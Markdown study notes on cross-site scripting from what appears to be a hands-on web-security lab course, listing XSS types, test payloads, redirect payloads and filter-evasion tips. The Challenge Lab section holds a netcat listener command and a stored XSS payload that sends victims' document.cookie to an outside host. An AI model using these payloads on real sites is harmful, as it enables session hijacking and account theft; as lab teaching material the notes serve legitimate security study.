 # XSS

### XSS - Introduction

Allows JavaScript execution within a victim's browser

3 main types:

- Reflected

![Reflected XSS](./pictures/reflected-xss.png)

- Stored

![Stored XSS](./pictures/stored-xss.png)

- DOM-based

![DOM-based XSS](./pictures/dom-based-xss.png)

Use print() or prompt("hello") to test XSS instead of alert(1) as it is now frequently filtered and detected

Look at [w3schools JavaScript tutorials](https://www.w3schools.com/js/)

### XSS - DOM Lab

No network activity in the network tab indicates DOM-based XSS

Basic payload

`<script>print(1)</script>`

Error based payload

`<img src=x onerror="prompt(1)" />`

Redirect payload

Simulates a mouse click

`<img src=x onerror="window.location.href('https://www.youtube.com/watch?v=dQw4w9WgXcQ')" />`

Simulate a redirect

`<img src=x onerror="window.location.replace('https://www.youtube.com/watch?v=dQw4w9WgXcQ')" />`

Replace removes the URL of the current document from the document history, meaning it is not possible to use 
the "back" button to navigate back

### XSS - Stored Lab

Use Firefox containers to isolate browser tabs for easy testing

Test for HTML injection first then figure out how to evade any XSS filtering

Set cookies to HttpOnly

### XSS - Challenge Lab

Start nc listener on port 8080

`nc -lnvp 8080`

Payload for Support ticket text box:

`<script>var i=new Image;i.src="http://10.10.10.2:8080/?"+document.cookie;</script>`

